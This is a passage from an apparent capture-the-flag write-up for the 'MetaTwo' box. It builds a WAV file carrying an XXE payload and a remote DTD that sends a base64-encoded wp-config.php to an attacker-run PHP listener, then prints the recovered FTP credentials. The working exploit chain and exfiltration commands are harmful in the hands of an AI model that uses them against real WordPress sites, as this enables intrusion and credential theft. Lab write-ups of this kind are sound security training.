 **exploit.wav**, **exploit.dtd**, and **index.php**

{% highlight console %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$ echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.2:9001/exploit.dtd'"'"'>%remote;%init;%trick;] >\x00'> exploit.wav

┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$ cat exploit.dtd   
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.2:9001/?p=%file;'>">

┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$ cat index.php   
<?php 
$myfile = fopen("tempfile.txt", "w") or die("unable to open file!");
$fixed = str_replace(' ', '+', $_GET['p']);
fwrite($myfile, zlib_decode(base64_decode($fixed)))
?>

{% endhighlight %}

Start php server

{% highlight console %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$ php -S 0.0.0.0:9001

[Mon Apr 24 09:06:14 2023] PHP 8.2.2 Development Server (http://0.0.0.0:9001) started

{% endhighlight %}

Upload exploit.wav

<div class="text-center">
    <div class="img-fluid">
        {% include figure.html path="assets/img/metatwo/m11.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

This saved wp-config.php to tempfile.txt.  From wp_config.php we find ftp credentials.

{% highlight console %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$ cat tempfile.txt

...

define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );

...

{% endhighlight %}

## Enumerating FTP
